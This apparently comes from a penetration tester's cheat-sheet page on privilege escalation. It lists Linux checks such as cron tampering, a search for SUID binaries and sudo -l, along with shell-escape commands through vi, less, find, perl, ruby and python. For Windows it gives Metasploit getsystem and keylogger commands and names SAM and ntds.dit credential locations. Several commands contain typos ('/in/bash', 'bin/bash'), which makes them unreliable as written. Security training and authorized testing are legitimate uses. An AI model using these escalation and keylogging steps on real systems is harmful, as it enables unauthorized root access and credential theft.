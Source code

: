 ```yaml
---
title: Priv Esc
category: Post-Exploitation
order: 96
---
```


>**Linux**

Cron.d | Write a file to cron.d and wait for restart
Cron files  | Can any of the cron files be tampered with
Kernal Exploit |  <code> Run uname -a, /etc/release, /etc/issue and find an exploit </code>
Application Exploit | Look for web servers, mail servers for command injection
Look for exploits in root owned programs
PATH | Look for '.' in the path for system users
SETUID/SETGUID | <code> find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/security-hole </code> They may use the system syscall without specifying the path name 
User writable scripts | Look for scripts that have user writable permissions and are invoked by root (or call scripts that are invoked by root)
Enlightenment Exploit Pack | tbd
LD_PRELOAD | tbd
check sudo permissions | sudo -l

**setuid permissions**
 
{% highlight bash %}
sudo vi :shell
less (press v - launching vi) :shell
more  ?,  !bash
cp or mv
find . -exec bash -i \;
Script interpeters
perl exec ""/bin/bash"";<ctrl-d>
ruby exec ""bin/bash""
python import os os.system('/in/bash')
nano 
{% endhighlight %}

>**Windows**

Metasploit | use priv, getsystem -n [number]
Metasploit keylogger | keyscan_start, keyscan_stop, keyscan_dump
SAM Locations | c:\windows\repair, c:\winnt\repair
Active Directory Representations | ntd.dit

http://pentestmonkey.net/uncategorized/from-local-admin-to-domain-admin

>**Mind Map**

[Edition template screenshot](images/privesc.jpg)


